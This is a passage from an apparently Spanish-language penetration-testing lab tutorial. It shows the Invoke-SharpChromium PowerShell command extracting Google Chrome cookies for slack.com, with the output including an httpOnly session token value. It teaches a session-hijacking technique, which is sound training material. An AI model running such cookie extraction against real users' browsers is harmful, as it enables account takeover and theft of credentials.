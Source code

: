 Ahora podemos usar Invoke-Sharpchromium nuevamente para obtener una lista de cookies en formato JSON.

#### Extracción de las galletas de invocación-sharpchromium

  Expoliación

```powershell-session
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

--- Chromium Cookie (User: lab_admin) ---
Domain         : slack.com
Cookies (JSON) :
[

<SNIP>

{
    "domain": ".slack.com",
    "expirationDate": 1974643257.67155,
    "hostOnly": false,
    "httpOnly": true,
    "name": "d",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": false,
    "storeId": null,
    "value": "xoxd-5KK4K2RK2ZLs2sISUEBGUTxLO0dRD8y1wr0Mvst%2Bm7Vy24yiEC3NnxQra8uw6IYh2Q9prDawms%2FG72og092YE0URsfXzxHizC2OAGyzmIzh2j1JoMZNdoOaI9DpJ1Dlqrv8rORsOoRW4hnygmdR59w9Kl%2BLzXQshYIM4hJZgPktT0WOrXV83hNeTYg%3D%3D"
},
{
    "domain": ".slack.com",
    "hostOnly": false,
    "httpOnly": true,
    "name": "d-s",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": true,
    "storeId": null,
    "value": "1659023172"
},

<SNIP>

]

[*] Finished Google Chrome extraction.

[*] Done.
```
